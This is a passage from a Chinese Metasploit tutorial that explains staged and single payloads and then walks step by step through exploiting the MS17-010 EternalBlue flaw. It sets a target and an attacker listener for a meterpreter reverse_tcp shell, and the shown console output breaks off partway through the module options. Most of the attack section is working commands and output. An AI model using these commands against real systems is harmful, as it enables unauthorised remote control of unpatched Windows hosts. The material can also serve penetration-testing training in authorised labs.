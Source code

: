 一、就是建立目标主机与攻击主机之间的网络连接； 

二、就是在连接建立的基础上获取目标主机的控制权限，即获取可供操作的shell。

**（2）结合体payload **

在理解了一个完整的payload是有两部分组成的基础上，我们可以理解我们这里所说的结合体了，其实就是将原本的single独立体分割为了两个部分：“传输器载荷”与“传输体载荷”（stages &amp; stagers）

比如“windows/meterpreter/reverse_tcp”是由一个传输器载荷（reverse_tcp）和一个传输体载荷（meterpreter）所组成的，其功能等价于独立攻击载荷“windows/shell_reverse_tcp”

**6.3 meterpreter 攻击载荷实战**

我们这里就使用MS17-010漏洞渗透模块结合meterpreter攻击载荷模块进行一次实战演练,通过永恒之蓝漏洞我们来获取一个meterpreter，顺道看meterpreter功能的强大之处。

其他攻击流程与前面基本相同，唯独多了一个配置 payload攻击载荷的过程，具体配置如下。

**6.3.1 攻击载荷配置过程**

调用exploit 攻击



```
use exploit/windows/smb/ms17_010_eternalblue 
set rhost 192.168.1.112
```

配置攻击载荷



```
set payload windows/x64/meterpreter/reverse_tcp 
set lhost 192.168.1.118
```

发起攻击

```
exploit
```

获取shell

```
getuid
```

**6.3.2 具体实操过程记录**



```
1.msf &gt; use exploit/windows/smb/ms17_010_eternalblue          # 调用ms17-010永恒之蓝漏洞攻击模块
2.msf exploit(ms17_010_eternalblue) &gt; set rhost 192.168.1.112 # 设定攻击目标 192.168.1.112
3.rhost =&gt; 192.168.1.112
4.msf exploit(ms17_010_eternalblue) &gt; set payload windows/x64/meterpreter/reverse_tcp # 调用反弹的攻击载荷 
5.payload =&gt; windows/x64/meterpreter/reverse_tcp
6.msf exploit(ms17_010_eternalblue) &gt; set lhost 192.168.1.118 # 设定将meterpreter 反弹给192.168.1.118
7.lhost =&gt; 192.168.1.118
8.msf exploit(ms17_010_eternalblue) &gt; show options  # 查询攻击参数设置
9.
10.Module options (exploit/windows/smb/ms17_010_eternalblue):
11.
12.   Name                Current Setting  Required  Description
13.   ----                ---------------  --------  -----------
14.   GroomAllocations    12               yes       Initial number of times to groom the kernel pool.
15.   GroomDelta          5                yes       The amount to increase the groom count by per try.
16.   MaxExploitAttempts  3                yes       The number of times to retry the exploit.
17.   ProcessName         spoolsv.exe      yes       Process to inject payload into.
18.   RHOST               192.168.1.112    yes       The target address
```